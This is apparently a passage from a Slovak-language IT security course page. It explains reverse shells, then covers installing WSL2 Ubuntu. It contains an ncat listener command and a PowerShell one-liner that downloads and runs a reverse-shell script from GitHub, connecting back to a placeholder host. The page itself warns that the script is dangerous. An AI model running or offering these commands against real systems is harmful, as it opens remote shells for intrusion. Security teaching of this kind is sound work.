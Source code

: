 Pri REVERSE SHELL nás kontaktuje PC z chránenej LAN a ponúka nám prístup k svojmu príkazovému riadku. Stačí len nastaviť kde nás má kontaktovať a vždy keď sa ozve tak nás nakontaktuje sám. Prejde cez Firewall ako legitímna komunikácia z vnútra siete.

LISTENER NA STRANE ÚTOČNÍKA
``` bash
ncat -lvnp 6868 -s IP HOST
```


REVERSE SHELL POMOCOU SKRIPTU V POWERSHELL:

>[!warning  ]
>### NEPRIATEĽ POČÚVA  !!! Tento skript je NEBEZPEČNÝ A BOL STIAHNUTÝ Z GITHUBU !!! 

[antonioCoco · GitHub] (https://github.com/antonioCoco) a je voľne šírený pod MIT licenciou.
Autor je Analytik Malware a reverzný inžinier pre Windows.

``` powershell
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell IP HOST  6868
```

>[!info] 
>SYSADMIN:  V našom prípade všetko dopadlo dobre, škodlivý kód zachytil ANTIVIR a zabránil mu v poskytnutí údajov cieľovému serveru. Štandardne je tiež v ExecutionPolicy Windows, že nemá spúšťať žiadne ps1 skripty.





## E: WSL2 UBUNTU Terminal - LINUX NA DOSAH RUKY

V tejto fáze kurzu už by ste mali vedieť čosi o VM a kontajneroch. Windows postupne vychádza v ústrety ľuďom, ktorí spravujú a pracujú s Linuxovými serverami a otravuje ich CommandPrompt alebo Powershell. Linux bash je JEDNODUCHO SUPER.

S Microsoft STORE si môžete nainštalovať do svojeho systému WSL2 čo je v podstate hypervisor, ktorý Vám umožní nainštalovať si do WIN10 a vyššie oficálne Microsoftom podporovaný Linux rôznych farieb a príchutí. Áno aj KALI LINUX.

Je aj ľahšia forma a to UBUNTU Terminal, ktorý Vám cez štandardný Windows Terminal dovolí otvárať UBUNTU Shell. POZOR MÁ INÚ IP ADRESU AKO WINDOWS.



WSL2 Install Ubuntu Terminal
https://www.microsoft.com/store/productId/9P7BDVKVNXZ6

Ak zadáte tento adresár môžete používať celý File SYstem vašeho počítača
``` bash
cd /mnt/c/
```



## F. IT SEC CLUSTER A WARGAMING

### F.1 IT SEC ONLINE VZDELAVANIE
